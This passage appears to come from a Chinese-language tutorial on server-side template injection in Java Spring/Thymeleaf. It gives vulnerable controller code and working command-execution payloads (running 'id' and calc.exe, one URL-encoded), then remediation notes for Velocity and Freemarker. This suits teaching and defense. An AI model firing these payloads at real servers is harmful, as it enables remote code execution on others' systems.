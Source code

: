 ```java
    public String templateOne(@RequestParam String name){
        return name;
    }
```
![](img/17-51-23.png)
```java
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::.x

__${T(java.lang.Thread).sleep(10000)}__::...

  __$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::...
```
### URI可控
当没有返回值时，默认以路径为视图名称进行解析。
```java
    @RequestMapping("/template4/{path}")
    public void templateTwo(@PathVariable String path){
        System.out.print("nothing"+path);
    }
```
```
__${T(java.lang.Runtime).getRuntime().exec("calc.exe")}__::.x

%5f%5f%24%7b%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%2e%65%78%65%22%29%7d%5f%5f%3a%3a%2e%78
```
![](img/17-53-40.png)  
## 修复方案
#### Velocity
`#`关键字Velocity关键字都是使用#开头的，如#set、#if、#else、#end、#foreach等,Velocity变量都是使用`$`开头的，如:$name、$msg  
通过`$`获取变量的的class再加载恶意类.  
对传入到vm模板文件`$`中的内容做严格过滤.  
#### Freemarker
`${...}`FreeMarker将会输出真实的值来替换大括号内的表达式,这样的表达式被称为interpolation(插值).
ftl文件中FTL标签的内容会被解析,在用户输入传递到这些标签中时需要做严格过滤.  

利用方式有两种方式  
API: 通过它可以访问底层Java Api Freemarker的 BeanWrappers.该配置在2.3.22版本之后默认不开启,但通过Configurable.setAPIBuiltinEnabled可以开启它。

new: new()函数可创建任意实现了TemplateModel接口的Java对象，同时还可以触发没有实现 TemplateModel接口的类的静态初始化块。官方提供的一种限制方式,使用Configuration.setNewBuiltinClassResolver(TemplateClassResolver)或设置 new_builtin_class_resolver 来限制这个内建函数对类的访问。  

从 2.3.17版本以后，官方版本提供了三种TemplateClassResolver对类进行解析：
1. UNRESTRICTED_RESOLVER：可以通过 ClassUtil.forName(className) 获取任何类。
2. SAFER_RESOLVER：不能加载 freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor这三个类。
3. ALLOWS_NOTHING_RESOLVER：不能解析任何类。  
  